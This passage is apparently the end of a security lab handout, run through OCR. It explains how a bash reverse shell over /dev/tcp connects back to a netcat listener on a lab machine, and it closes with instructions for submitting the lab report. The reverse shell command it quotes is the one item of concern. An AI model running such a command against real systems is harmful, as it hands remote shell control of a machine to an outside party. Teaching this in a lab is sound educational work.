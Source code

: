 In summary, the command"/bin/bash -i > /dev/tcp/10.0.2.6/9090 0<&1 2>&1"starts
abashshell on the server machine, with its input coming from a TCP connection, and output going to the
same TCP connection. In our experiment, when thebashshell command is executed on10.0.2.5, it
connects back to thenetcatprocess started on10.0.2.6. This is confirmed via the"Connection
from 10.0.2.5 ..."message displayed bynetcat.

## 10 Submission

You need to submit a detailed lab report, with screenshots, to describe what you have done and what you
have observed. You also need to provide explanation to the observations that are interesting or surprising.


Please also list the important code snippets followed by explanation. Simply attaching code without any
explanation will not receive credits.


